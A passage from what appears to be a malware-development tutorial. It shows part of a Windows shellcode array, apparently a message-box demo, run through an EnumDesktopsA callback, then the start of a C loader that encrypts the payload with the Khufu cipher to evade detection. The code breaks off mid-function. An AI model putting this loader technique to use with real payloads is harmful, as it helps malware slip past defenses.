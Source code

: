 ```cpp
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

and run it by passing it as a callback function to `EnumDesktopsA`.

The full source code is looks like this (`hack.c`):     

```cpp
/*
* hack.c
* encrypt/decrypt payload 
* via Khufu algorith
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/21/malware-cryptography-30.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 16
#define BLOCK_SIZE 8
#define KEY_SIZE 64

uint8_t key[KEY_SIZE] = {
  0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
  0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
  0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
  0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
  0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
  0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
  0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
  0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F
};

uint32_t sbox[256];

void khufu_generate_sbox(uint8_t *key, int round) {
  for (int i = 0; i < 256; i++) {
    sbox[i] = (key[(round * 8 + i) % KEY_SIZE] << 24) |
          (key[(round * 8 + i + 1) % KEY_SIZE] << 16) |
          (key[(round * 8 + i + 2) % KEY_SIZE] << 8) |
          key[(round * 8 + i + 3) % KEY_SIZE];
  }
}

void khufu_encrypt(uint8_t *block, uint8_t *key) {
  uint32_t left = ((uint32_t)block[0] << 24) | ((uint32_t)block[1] << 16) | ((uint32_t)block[2] << 8) | (uint32_t)block[3];
  uint32_t right = ((uint32_t)block[4] << 24) | ((uint32_t)block[5] << 16) | ((uint32_t)block[6] << 8) | (uint32_t)block[7];

  left ^= ((uint32_t)key[0] << 24) | ((uint32_t)key[1] << 16) | ((uint32_t)key[2] << 8) | (uint32_t)key[3];
```
